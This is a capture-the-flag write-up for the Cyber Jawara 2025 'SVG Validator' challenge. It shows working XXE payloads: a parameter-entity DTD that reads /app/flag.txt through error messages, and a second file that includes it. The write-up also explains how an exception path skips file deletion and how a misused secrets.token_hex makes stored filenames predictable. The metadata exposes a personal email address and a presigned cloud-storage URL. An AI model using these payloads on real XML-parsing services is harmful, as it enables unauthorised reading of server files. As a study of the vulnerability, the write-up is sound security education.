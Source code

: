 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4662X4OUTZP%2F20250522%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250522T210321Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjECUaCXVzLXdlc3QtMiJGMEQCIBqfVF0mCQpTv89yyjhPkaBZ1Df2mJxzQM75EAM1kbV6AiBuYJwjM5rJGY2ChxUtZn1bZHt3%2BNN5vj1mU%2FeUvFK39iqIBAje%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMiFgnnwkNM1YGXIYEKtwDM5n%2BWtEhtEowlpIQusSc3BHoJLpbo7byzCzRGZSsmeyxHNLwQimZd4T%2F1%2B17cLArtYMDANHinelUQaVTCp2pLmYlpAGYz2oInN0m2zfxLetqSsAACj8okjiwiskEmis4StQ%2BfKbTyqDNh9yU13yUFPzVVrM%2B%2FRHNUQqjeAQStFqpRfgLyGKju%2BnNGgDL8uQVmkuYywaYdbZoT9bn%2BSvG0Y2CseFdDUbY2q2%2B6U0gnkzLTYWaBbmENB0zEUJzKNHwC%2BuwzYTSIIBCDAahU7ARyIR9ZuCQdxScfecKpMPeiWnuWKDgh%2Ff4eUjAfz9qqGCu6r54HrJiUwHLY930vGMHaYTdT1Qw%2F9itM3NlRtXGPwXmpGqCCGpz4R%2B%2FK1q7k4TyhM%2Fkf2KwYWqqIOMGF39phNeNn7mPbYI2b7qrWKwrecHj%2FnV5MRyG8y%2B7ZMWJWMpoeKl8SYhz62Q0xmxU%2BD9si2uyVks%2Bs1vpZahkSYI6%2FYDqgD9No6V3A6NdPzhyVr0truT5Z8kov0I%2B7W%2BgjwsLvl5rPfkuhM%2BQfRXlVFAFmdxxyC3Z%2FWAjdT%2BhL%2FcCWHS5gzhTMo74zQc7bNaE8TUUIP3414mYL9Mp1EIUQ65KLVBk3dsng6MWtGyLqR8wtZO%2BwQY6pgHaOOQNyfVp12HvePQ527gf6LzFeKO9DLS3zXT79jzB%2BRmaoHTOMlUhRSGr9RhUqXQM%2FJtSqGLp0dHtsZ4v%2BETyb7YiTP%2FsgpeY%2FEoagQ31zeR8b3HCqB3iywj0rHqJhvJc7EfWl9Z2ig%2FCQAyOcGbZgip31dNbaVPy74EuIcd4M0wK%2FgfyPTC9gyO28wLkF%2BznFgCU%2F%2B0tvJbqbTtfdpq3LOK3H8lV\&X-Amz-Signature=5b2e7c0331cc18e5c9ab7508a85a1342c1dec11a22ccd12e4ecf2773cb85ba61\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
